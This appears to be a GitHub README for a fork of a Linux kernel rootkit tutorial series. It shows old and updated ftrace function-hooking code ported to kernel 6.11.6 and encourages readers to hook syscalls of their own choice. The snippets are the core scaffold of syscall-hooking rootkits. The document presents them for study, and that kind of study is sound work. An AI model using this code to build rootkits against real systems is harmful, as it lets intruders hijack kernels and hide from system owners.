 # Linux-Rootkit-Series forked from Xcellerator

The Linux_kernel_hacking series with the xcellerator was amazing and inspired me to make an updated repo of his project and also make some minor changes since this will be working on 6.11.6. Understanding how these work opens you up to another world.

This will aim to be a full series of individual malicious linux kernel modules for most recent kernel version 6.11.6.

** This is the link to the Xcellerator blog series https://xcellerator.github.io/posts/linux_rootkits_11/
---

# Changes for fh_ftrace_thunk()

  - This is the old function and its code below:
```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

  - This is the revised code of the function below:

```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct ftrace_regs *fregs)  // revised
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

    struct pt_regs *regs = ftrace_get_regs(fregs); // Added

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

# Changes to fh_install_hook()

 - This is the old snippet below of the function:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION_SAFE
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```
  - This is the revised snippet of code for the function below:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```

# Extra

  - Feel free to add to this, the whole point of this is to help people thats scraping the internet for malicious code examples to examine.
  
  - Experiment with this repo and grasp the concept of whats going on and venture into hooking your own syscall of choice and having fun with that syscall. Make things work with that hooked syscall and big FYI if you dont already know this USE THE INTERNET TO YOUR ADVANTAGE, meet others.

---
